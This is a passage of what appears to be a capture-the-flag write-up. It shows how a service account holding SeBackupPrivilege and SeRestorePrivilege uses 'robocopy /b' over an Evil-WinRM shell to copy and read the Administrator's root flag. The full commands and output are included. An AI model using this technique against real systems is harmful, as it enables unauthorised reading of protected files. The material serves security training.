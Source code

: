 ### METHOD 2: FILE READ

Since `svc-printer` has both `SeBackupPrivilege` and `SeRestorePrivilege` privilege we can use `robocopy` to read files.

> Non-admin user can use Robocopy to copy files and directories that are normally only accessible by administrators, if they are granted the SeBackupPrivilege and SeRestorePrivilege.
The easiest way is to use the /B option to run Robocopy in "backup mode" which tells Robocopy to use the Volume Shadow Copy Service (VSS) to create a shadow copy of the volume being copied, and thus allows Robocopy to access files that are otherwise locked or in use

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> robocopy /b C:\users\administrator\desktop C:\programdata\temp
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Saturday, January 28, 2023 8:45:40 AM
   Source : C:\users\administrator\desktop\
     Dest : C:\programdata\temp\

    Files : *.*

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           2    C:\users\administrator\desktop\
            New File                  34        root.txt
  0%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         2         1         1         0         0         0
   Bytes :       316        34       282         0         0         0
   Times :   0:00:00   0:00:00                       00:00:00   0:00:00
   Ended : Saturday, January 28, 2023 8:45:40 AM

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> cd C:\programdata\temp
*Evil-WinRM* PS C:\programdata\temp> dir


    Directory: C:\programdata\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/27/2023  10:06 PM             34 root.txt

```
now we can read the root file

```
*Evil-WinRM* PS C:\programdata\temp> type root.txt
3a8e0ddbc41e01511f43c310d8fd6eca
```